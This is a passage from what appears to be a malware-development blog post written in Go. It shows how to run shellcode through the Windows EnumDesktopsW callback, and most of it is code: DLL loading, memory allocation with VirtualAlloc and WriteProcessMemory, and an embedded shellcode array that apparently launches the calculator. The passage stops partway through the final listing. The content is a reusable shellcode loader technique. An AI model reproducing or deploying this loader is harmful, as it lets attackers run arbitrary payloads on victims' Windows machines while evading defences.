 And now the interesting part, we use `EnumDesktopsW` to execute the shellcode.

```go
winProc, _, _ := GetProcessWindowStation.Call()
fmt.Println("Calling EnumDesktopsW...")

_, _, err := EnumDesktopsW.Call(winProc, address, 0)
if err != nil {
  log.Fatal(err)
}
```

So this is the final code:

```go
package main

/*

Author: D3Ext
Blog post: https://d3ext.github.io/malware-dev-8/

*/

import (
  "fmt"
  "log"
  "time"
  "unsafe"

  "golang.org/x/sys/windows"
)

var shellcode = []byte{
  0x31, 0xc0, 0x50, 0x68, 0x63, 0x61, 0x6c, 0x63,
  0x54, 0x59, 0x50, 0x40, 0x92, 0x74, 0x15, 0x51,
  0x64, 0x8b, 0x72, 0x2f, 0x8b, 0x76, 0x0c, 0x8b,
  0x76, 0x0c, 0xad, 0x8b, 0x30, 0x8b, 0x7e, 0x18,
  0xb2, 0x50, 0xeb, 0x1a, 0xb2, 0x60, 0x48, 0x29,
  0xd4, 0x65, 0x48, 0x8b, 0x32, 0x48, 0x8b, 0x76,
  0x18, 0x48, 0x8b, 0x76, 0x10, 0x48, 0xad, 0x48,
  0x8b, 0x30, 0x48, 0x8b, 0x7e, 0x30, 0x03, 0x57,
  0x3c, 0x8b, 0x5c, 0x17, 0x28, 0x8b, 0x74, 0x1f,
  0x20, 0x48, 0x01, 0xfe, 0x8b, 0x54, 0x1f, 0x24,
  0x0f, 0xb7, 0x2c, 0x17, 0x8d, 0x52, 0x02, 0xad,
  0x81, 0x3c, 0x07, 0x57, 0x69, 0x6e, 0x45, 0x75,
  0xef, 0x8b, 0x74, 0x1f, 0x1c, 0x48, 0x01, 0xfe,
  0x8b, 0x34, 0xae, 0x48, 0x01, 0xf7, 0x99, 0xff,
  0xd7,
}

func main(){

  // Load DLLs
  user32 := windows.NewLazyDLL("user32.dll")
  kernel32 := windows.NewLazyDLL("kernel32.dll")

  // Import calls
  EnumDesktopsW := user32.NewProc("EnumDesktopsW")
  GetProcessWindowStation := user32.NewProc("GetProcessWindowStation")
  GetCurrentProcess := kernel32.NewProc("GetCurrentProcess")
  VirtualAlloc := kernel32.NewProc("VirtualAlloc")
  WriteProcessMemory := kernel32.NewProc("WriteProcessMemory")

  address, _, _ := VirtualAlloc.Call(
```